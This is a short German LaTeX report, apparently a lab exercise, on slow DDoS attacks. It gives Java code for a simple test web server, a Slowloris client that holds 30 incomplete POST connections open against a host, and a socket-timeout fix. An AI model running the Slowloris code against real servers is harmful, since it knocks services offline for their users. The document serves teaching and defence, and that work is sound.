 \documentclass[a4paper,12pt,
headsepline,           %
oneside,               %
pointlessnumbers,      %
bibtotoc,              %
BCOR15mm               %
]{scrbook}
\title{Slow DDoS-Angriffe auf Internetdienste}
\date{Juli 20, 2020}
\author{Björn Petersen}
\begin{document}
\maketitle

\section*{Webserver}
Der Server wurde wie folgt angepasst
\begin{lstlisting}
    public static void main(String[] args) throws IOException {

        ExecutorService executorService = Executors.newFixedThreadPool(threadPoolSize);
        ServerSocket serverSocket = new ServerSocket(port);

        while(true) {

            Socket clientSocket = serverSocket.accept();
            new ConnectionThread(clientSocket).start();


            System.out.println("Connection from " + clientSocket.getRemoteSocketAddress()
                    + "; Active Connections: " + ConnectionThread.activeConnections.get());
        }
    }
\end{lstlisting}

\section*{Slowloris - Unvollständige Anfrage}
Es werden mehrere Unvollständige Verbindungen zu dem Server aufgebaut, welche dazu führen, dass der Server irgendwann keine weiteren Verbindungen mehr bearbeiten kann und somit kommt es zu einem Denial of Service.
\begin{lstlisting}
    public static void main(String[] args) throws InterruptedException, IOException {

        for (int i=0; i<30; i++) {
            openSocket();
        }
        while (true);
    }
        

    private static void openSocket() throws IOException {
        Socket socket = new Socket(host, port);
        var outputStream = socket.getOutputStream();

        String header = "POST / HTTP/1.1\r\n" + "Host: " + host + "\n";

        outputStream.write(header.getBytes());
    }
\end{lstlisting}

\section*{Webserver - Timeouts}
Durch das einfügen eines Timeouts werden verbindungen abgebrochen, die nicht mehr reagieren, womit es nicht mehr zu einem Denial of Service kommt.
Das Timeout kann durch folgende Funktion eingestellt werden: \texttt{clientSocket.setSoTimeout(1000)}
\end{document}
